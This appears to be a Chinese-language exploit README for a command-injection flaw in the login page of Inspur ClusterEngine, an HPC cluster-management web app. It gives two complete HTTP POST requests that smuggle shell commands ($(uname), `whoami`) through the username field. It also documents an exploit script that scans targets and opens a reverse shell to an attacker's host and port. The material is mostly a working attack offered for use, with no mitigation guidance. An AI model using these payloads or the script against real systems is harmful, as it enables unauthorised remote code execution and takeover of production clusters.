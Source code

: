 

# 浪潮 ClusterEngine命令执行

## 漏洞简介

​	浪潮集群管理ClusterEngine是专门为浪潮天梭系列HPC产品定制的一款作业管理软件。在web登录界面，通过精心构造后的命令，可执行任意命令。造成命令执行漏洞

## 漏洞复现

POC

执行uname

```
POST /login HTTP/1.1
Host: x x x x:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: https://xxxx:8443
Connection: close
Referer: https://xxxxx:8443/module/login/login.html
Cookie: lang=cn

op=login&username=1 2\',\'1\'\); $(uname)
```

![1](./img/1.png)

执行whami

```
POST /login HTTP/1.1
Host: x x x x:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: https://xxxx:8443
Connection: close
Referer: https://xxxxx:8443/module/login/login.html
Cookie: lang=cn

op=login&username=1 2\',\'1\'\); `whoami`
```

![1](./img/2.png)

## 脚本使用

使用帮助：

```bash
python3 exp --help
```

![1](./img/3.png)

检测指定url是否存在漏洞

```bash
python3 exp.py -u http://host:port
```

![1](./img/4.png)

反弹目标shell

```bash
python3 exp.py -u url -l vps-host -p vps-port
```

![1](./img/5.png)

